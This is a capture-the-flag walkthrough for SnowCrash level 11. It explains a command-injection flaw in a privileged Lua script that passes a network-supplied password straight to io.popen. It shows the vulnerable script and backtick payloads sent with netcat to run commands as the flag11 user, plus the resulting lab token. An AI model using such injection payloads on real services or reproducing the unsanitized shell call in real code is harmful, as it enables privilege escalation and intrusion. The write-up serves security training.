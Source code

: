 # Level 11: Script Privilege Escalation

### Goal
Exploit a vulnerability in a Lua script that runs with elevated privileges (flag11 user permissions) through code injection in a subprocess call.

## Steps

### I- Initial Analysis
In the home directory, there's a Lua script `level11.lua` with SUID/GUID bits set, meaning it runs with **flag11**'s permissions regardless of who executes it.

1. **File Examination:**
	```bash
	level11@SnowCrash:~$ ls -l
	total 4
	-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
	```

2. **Script Status:**
	```bash
	level11@SnowCrash:~$ ./level11.lua
	lua: ./level11.lua:3: address already in use
	stack traceback:
		[C]: in function 'assert'
		./level11.lua:3: in main chunk
		[C]: ?
	```
	This error message indicates that the script is already running since the port it tries to bind to is already in use.
	We can confirm this by checking running processes:
	
	```bash
	level11@SnowCrash:~$ ps aux | grep lua
	flag11    1852  0.0  0.0   2896   960 ?        S    12:30   0:00 lua /home/user/level11/level11.lua
	level11   2138  0.0  0.0   4380   820 pts/0    S+   13:01   0:00 grep --color=auto lua
	```
	The output shows that the script is indeed running under the flag11 user. 

3. **Script Content:**
	```lua
	#!/usr/bin/env lua
	local socket = require("socket")
	local server = assert(socket.bind("127.0.0.1", 5151))

	function hash(pass)
	prog = io.popen("echo "..pass.." | sha1sum", "r")
	data = prog:read("*all")
	prog:close()

	data = string.sub(data, 1, 40)

	return data
	end

	while 1 do
	local client = server:accept()
	client:send("Password: ")
	client:settimeout(60)
	local l, err = client:receive()
	if not err then
		print("trying " .. l)
		local h = hash(l)

		if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
			client:send("Erf nope..\n");
		else
			client:send("Gz you dumb*\n")
		end

	end

	client:close()
	end
	```

### II - Vulnerability Analysis
1. The script runs a server on port `5151`
2. It accepts connections and prompts for a password
3. The vulnerability lies in the `hash()` function:
	```bash
	function hash(pass)
	prog = io.popen("echo "..pass.." | sha1sum", "r")
	```
   - It uses `io.popen()` to execute a shell command.  
   *`io.popen()` execute a command in a separate process and returns a file handle that you can use to read data from command's output.*
   - The `pass` input is directly injected into the command without sanitization
   - Command injection is possible through backticks or shell operators

### III - Exploitation Steps
Since the script is running a `server` on port `5151`, we can use **Netcat** to connect to it and exploit the command injection vulnerability.

1. **Verify Privilege Escalation:**
	```bash
	level11@SnowCrash:~$ nc 127.0.0.1 5151
	Password: `echo hello` > /tmp/test
	Erf nope..
	level11@SnowCrash:~$ cat /tmp/test
	hello
	```

2. **Retrieve the Flag:**
	```bash
	level11@SnowCrash:~$ nc 127.0.0.1 5151
	Password: `getflag > /tmp/token`
	Erf nope..
	level11@SnowCrash:~$ cat /tmp/token
	Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
	```

	*Note:*  
	*- `nc` command: allows us to connect to the Lua script's server running on port `5151`.*  
	*- `127.0.0.1`: is the loopback address, which refers to the **localhost**.*
